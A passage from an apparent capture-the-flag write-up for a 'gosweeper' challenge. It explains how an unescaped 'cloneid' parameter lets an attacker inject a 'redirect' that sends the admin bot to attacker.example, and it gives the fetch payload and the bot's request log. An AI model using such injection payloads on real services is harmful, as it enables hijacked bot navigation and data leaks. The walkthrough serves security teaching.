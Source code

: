 ```go, hl_lines=12 39
  }{
    Actions: []interface{}{
      // ...
      map[string]string{
        "type": "request",
        "url":  CHALL_URL + "/clone?cloneid=" + cloneid,
      },
      // ...
    },
    Browser: "chrome",
  }

  // ...
}
```

The endpoint accepts a `cloneid` parameter given in the POST request's body,
which if empty just defaults to the ID of the current user.
This parameter is then passed as a query parameter to a URL the bot visits,
but with no escaping whatsoever.
This means that we can pass additional query parameters (e.g., the aforementioned
`redirect` parameter) and get the bot to visit our own website, simply by sending
`cloneid=something&redirect=//attacker.example` in the body of the request.

We can see this in action by sending a request using the following code in the
browser's console (or using your favourite HTTP client) and taking a look at the
headless Chromium's logs:

```js
fetch(`/checkboard`, {
  method: 'POST',
  body: new URLSearchParams({
    cloneid: 'something&redirect=//attacker.example',
  }),
});
```

```hl_lines=17
[INFO] time=4
[INFO] Sleeping for 4 seconds...
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
[DEBUG]   - 200 https://accounts.google.com/ListAccounts?gpsia=1&source=ChromiumBrowser&json=standard
[DEBUG]   - 200 https://update.googleapis.com/service/update2/json?cup2key=13:uZY9aaXIKQsxzpLXZabR1vcg_15CqJ1jrffybVm5VM8&cup2hreq=0bc0f2ab95433858138f92c381c78020f721e52187712d7bfbc035c0241f9914
[DEBUG]   - 200 http://edgedl.me.gvt1.com/edgedl/chromewebstore/L2Nocm9tZV9leHRlbnNpb24vYmxvYnMvYTBmQUFZUHRkSkgtb01uSGNvRHZ2Tm5HQQ/1.0.0.15_llkgjffcdpffmhiakmfcdcblohccpfmo.crx
[DEBUG]   - 200 https://update.googleapis.com/service/update2/json
[DEBUG]   - 200 https://update.googleapis.com/service/update2/json?cup2key=13:wAPwclgoQoguPMBkA2lMUoNigyPGWWCOkZ1lzJVrdWo&cup2hreq=9fbcdeebd981821a4d766860571b378f3bb9d80d5bf8acecc0c112c631bf5314
[DEBUG]   - 200 https://gosweeper.example/login
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 404 https://gosweeper.example/favicon.ico
[DEBUG]   - 200 https://content-autofill.googleapis.com/v1/pages/ChNDaHJvbWUvMTIyLjAuNjI0OC4wEhkJqFiiaKxoaTESBQ2jwhVDIeiPPZAbjv6B?alt=proto
[DEBUG]   - 302 https://gosweeper.example/login
[DEBUG]   - 200 https://gosweeper.example/
[DEBUG]   - 302 https://gosweeper.example/clone?cloneid=something&redirect=//attacker.example
[DEBUG]   - 200 https://attacker.example/
[DEBUG]   - 302 https://gosweeper.example/board?xray=1
[DEBUG]   - 302 https://gosweeper.example/newboard
[DEBUG]   - 200 https://gosweeper.example/board
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
```

[XSLeaks]: https://xsleaks.dev
[CSP header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[cors-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[cookie-lax]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#lax
[coop-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy
[corp-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Resource-Policy
[max-redirects]: https://xsleaks.dev/docs/attacks/navigations/#max-redirects
[unload-event]: https://developer.mozilla.org/en-US/docs/Web/API/Window/unload_event
[window-opener]: https://developer.mozilla.org/en-US/docs/Web/API/Window/opener
[max-redirect-demo]: https://xsinator.com/testing.html#Max%20Redirect%20Leak
[Express]: https://expressjs.com/
[Mustache]: https://mustache.github.io/